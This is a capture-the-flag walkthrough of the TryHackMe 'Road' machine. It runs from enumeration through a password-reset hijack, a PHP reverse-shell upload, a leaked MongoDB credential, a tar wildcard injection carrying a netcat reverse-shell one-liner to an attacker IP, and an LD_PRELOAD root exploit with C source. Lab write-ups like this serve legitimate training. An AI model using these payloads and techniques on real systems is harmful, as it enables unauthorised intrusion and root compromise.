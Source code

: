 ```yaml
---
date: 2025-02-13
categories: [CTF, THM]
title: "THM - Road"
tags: ['gobuster', 'linux', 'linux setuid', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell']

description: "Road - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Road

NMAP
```bash
sudo nmap 10.10.79.100 -A
```

![image1](../resources/ed395c99dd32449aa81a2f2467a8a6c4.png)

- Directory scan:
```bash
gobuster dir -u http://10.10.79.100 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image2](../resources/82e700da08674d67895a5a588727f6e6.png)

- Registered an account and logged in
<http://10.10.54.102/v2/admin/login.html>


![image3](../resources/6e3779b9535040c7b71c85d7ddb77f1a.png)

- On the Profile page we can upload a file (but only admins can atm)

![image4](../resources/d8587e7e31214b9da68140be037cb31d.png)

- But found an admin email:
**admin@sky.thm**

- The only other button that works is the ResetUser button

![image5](../resources/9b034d03f1384e24820ec1ef12a29442.png)

- But looks like we can only reset our own password

- Open Burp and see if we can intercept the traffic

![image6](../resources/fc26e2830a574013925477485289ed05.png)


![image7](../resources/c1b982308e6049939558a4f40141e90d.png)

- Change the email to **admin@sky.thm** and send


![image8](../resources/86256cf6a2f04693a38699c40914103e.png)

- Got a 200 response code OK


![image9](../resources/049e417e9a6e44a0bf0acd3eb52a080c.png)

- Log in with admin@sky.thm


![image10](../resources/9d443c901bb4461f8bc8b9e6fd451bdd.png)

- If we now go to Profile and scroll to the bottom - we can upload a file


![image11](../resources/e1c3f363b5804e9b9ca5ba8465a10413.png)

- I jumped straight in with a **php_reverse_shell.php** - and uploaded it  
  It didn't give an error but didn't say successful either

- Set up nc:
```bash
rlwrap -cAr nc -lvnp 4445

```
- Inspecting the current profile picture

![image12](../resources/66bac46272ae427ba0e01bfbe7cd5333.png)

and trying to use that path to get a shell back - Failed

- Inspecting the profile page's source - showed a different path, that's been commented out
**/v2/profileimages/**


![image13](../resources/5d87c6111ad54c8db42d403728f7b492.png)

- Using that path
<http://10.10.54.102/v2/profileimages/php_reverse_shell.php>

- Got a shell

![image14](../resources/e40efe44a9e549338f837022047a55f2.png)

- Upgrade shell:
```bash
# In reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

#Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
export SHELL=bash
export TERM=xterm
stty cols 236 rows 59
alias ls='ls --color=auto'
reset
clear

#ENTER
#ENTER
```

- cat user flag

- Check what users are on the server:
```bash
getent passwd

```

![image15](../resources/c1719ba2e2dd48ee849222095bd72f18.png)

```bash
ss -tulpn

```

![image16](../resources/ed8f051894624a3ca803f51078778e05.png)

- Tried connecting to mysql

![image17](../resources/f06981d54c8d4fd3a2d371aeed1add92.png)

- Connected to mongo with no credentials

![image18](../resources/08020e0dd4cd44469b418fadb3ef6d35.png)


![image19](../resources/4b74c435bdd749fea81448e68cac8d93.png)


![image20](../resources/295fd00cfb6a4f059eb941a9a18be853.png)

- Got **webdeveloper : BahamasChapp123!@#**

- SSH with creds:
```bash
ssh webdeveloper@10.10.54.102

sudo -l

```

![image21](../resources/2306faba66b740b59bec38770b6ccd75.png)

```bash
id

```

![image22](../resources/47c5cce869a14a2794e5aae5f6f47d0d.png)

Tried sudo su as webdeveloper is in sudo group


![image23](../resources/c9e70ac1e0204bd0aef10ed58122caac.png)

sky_backup_utility is owned by root


![image24](../resources/0d095f391e9245b6a29a19885cea129e.png)

```bash
strings /usr/bin/sky_backup_utility

```

![image25](../resources/7081ddeac48341cca1ada3d1036fe9ed.png)

```bash
tar -czvf /root/.backup/sky-backup.tar.gz /var/www/html/
```

We can see that this is a backup script ELF file. So it must run regularly.

It backs up all of the contents in /var/www/html/**\*** to /root/.backup/sky-backup.tar.gz

We can exploit the wildcard **\*** to priv esc

- On KALI - Create a raw netcat reverse shell:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.24.66 lport=4444 R

```
- Copy the raw shell:
```bash
mkfifo /tmp/mzdqoeb; nc 10.8.24.66 4444 0</tmp/mzdqoeb | /bin/sh >/tmp/mzdqoeb 2>&1; rm /tmp/mzdqoeb

```
- Set up nc listener
```bash
rlwrap -cAr nc -lvnp 4444

```
- Go back to www-data shell
```bash
cd /var/www/html/

echo "mkfifo /tmp/mzdqoeb; nc 10.8.24.66 4444 0\</tmp/mzdqoeb \| /bin/sh \>/tmp/mzdqoeb 2\>&1; rm /tmp/mzdqoeb" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

tar cf archive.tar *

```

- Got a shell - but it's www-data - tried with webdeveloper as well but didn't get root

![image26](../resources/767d8ca5beb04d6db74420f98a4c866e.png)

- Looking at sudo -l again


![image27](../resources/daf51bfc2dfe458f9ec7de2add84f7e4.png)

- **env_keep+=LD_PRELOAD** is set
- And we can run a binary as sudo (/usr/bin/sky_backup_utility)

<https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/>


![image28](../resources/ecf14855710946f49d6dc536accc5b2e.png)


![image29](../resources/7dcd27de6359416e827c072e71770d72.png)

- Exploit LD_PRELOAD:
  - On webdeveloper shell

```bash
cd /tmp
nano shell.c
```

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD"); // Prevent recursion
    setgid(0);              // Set group ID to root
    setuid(0);              // Set user ID to root
    system("/bin/sh");      // Spawn a root shell
}
```

![image30](../resources/7383a540efea442fa0a9923e8931221b.png)

Save file

- Compile c file:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility #Because we can execute /usr/bin/sky_backup_utility as root
```

- Got root shell

![image31](../resources/ea90e1f2f5674f818fcde6f56c1365cf.png)

```bash
cat root.txt

```